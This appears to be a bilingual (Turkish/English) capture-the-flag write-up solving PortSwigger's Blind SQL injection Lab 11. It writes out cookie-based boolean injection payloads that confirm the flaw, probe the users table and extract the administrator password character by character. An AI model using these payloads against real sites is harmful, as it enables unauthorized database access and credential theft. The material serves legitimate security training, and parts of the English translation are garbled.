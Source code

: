 # BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platformu; içerisinde bulunan Web Security ve daha bir çok alandaki eğitimlere ücretsiz erişim hakkı tanımaktadır.
->Bunun yanında üretmiş oldukları çok fonksiyonlu BurpSuit aracının sektör açısından önemi yadsınamaz.
->Bu proje Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11 için çözüm adımlarını içermektedir.
->BurpSuit'in Community Edition sürümü kullamılmıştır.
_________________________________________________________________________________________________________________________________

# BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platform; Free access to trainings in Web Security and many other areas is provided.
->In addition, it is undeniable to demonstrate the performance of the multifunctional BurpSuit vehicles that I have produced.
->This project contains the solution steps for Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11.
->Community Edition of BurpSuit is used.




                                <---Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11--->
                                ______________________________________________________________________________
                                
 
Blind SQLi

Zaafiyet Parametresi - Cookie

Hedefler:
1-) Admin şifresini numaralandır.
2-) Admin olarak giriş yap.

Öncelikle bir zaafiyetin tespiti ardından sömürülmesi gerektiğini biliyoruz. Bu sebeple ilk adımımız zaafiyet bulunduğu belirtilen Cookie üzerinden doğru/yanlış sorgular yaparak zaafiyetin varlığından emin olmamız gerekmekte.
Çözüm boyunca "Welcome back" sonucu aldığımız her sorgulama doğrulama yapmış olduğumuz anlamına gelmektedir. Eğer Response alanında bu veriyi göremiyorsak ya yaptığımız uygulamada yanlışlık vardır ya da olumsuz dönüş alıyoruzdur.
_______________________________________________________________________________________________________________________________________________________________________

Analiz:
1-) Zaafiyetin doğru olup olmadığının kontrolü.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'
-> Eğer bu işlem işe yararsa -> dönüş doğru olacak -> Welcome back message
-> Eğer bu işlem işe yaramazsa -> dönüş olmayacak -> No Welcome back message

Sql tarafında çalıştırıldığını tahmin edebileceğimiz sorguları hayal etmemiz ve deneme yanılma yolu ile doğruluğunu tespit etmemiz gerekli.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'
->Yanlış -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'
-> Doğru -> Welcome back


_______________________________________________________________________________________________________________________________________________________________________


2-) Bir Kullanıcı Tablosu Olup Olmadığını Kontrol Et

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'
-> users tablosu databasede mevcut.

_______________________________________________________________________________________________________________________________________________________________________


3-) Admin kullancısının Users tablosunda olup olmadığını kontrol et.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'
-> Admin kullanıcısı databasedeki users tablosunda mevcut.

_______________________________________________________________________________________________________________________________________________________________________


4-) Admin şifresinin numaralandır.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'
-> Kaba kuvvet saldırı gibi olduğundan mantıklı bir sorgu olmayıp istediğimiz sonucu vermeyecektir.

*Öncelikle password uzunluğunu bulmamız lazım.
select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' ///->20 değerine kadar denemeler yapılabilir ancak
BurpSuit yardımı ile de kolaylıkla bulunması mümkün.
->Şifre uzunluğu 20 karakter.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20
a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9


***********************************************************************************************************************************************************************


Goals:
1-) Number the admin password.
2-) Login as admin.

We know that first of all, a vulnerability must be detected and then exploited. For this reason, our first step is to make sure that the vulnerability exists by making correct/false queries on the Cookie, which is stated to be vulnerable.
Every query we get a "Welcome back" result throughout the solution means that we have verified. If we cannot see this data in the Response field, either there is an error in our application or we receive a negative response.

_______________________________________________________________________________________________________________________________________________________________________

Analysis:
1-) Checking whether the vulnerability is correct.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'
-> If this works -> return will be correct -> Welcome back message
-> If this doesn't work -> no return -> No Welcome back message

We need to imagine the queries that we can guess to be run on the SQL side and determine their accuracy by trial and error.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'
->False -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'
-> Correct -> Welcome back

_______________________________________________________________________________________________________________________________________________________________________


2-) Check if there is a User Table

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'
-> users table exists in database.

_______________________________________________________________________________________________________________________________________________________________________


3-) Check if the Admin user is in the Users table.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'
-> The admin user exists in the users table in the database.

_______________________________________________________________________________________________________________________________________________________________________


4-) Number of the admin password.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'
-> Since it is like a brute force attack, it is not a logical query and will not give the result we want.

*First we need to find the password length.
select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' 
///-> Attempts up to 20 can be done but It can be easily found with the help of BurpSuit.
->Password length 20 characters.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20
a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9

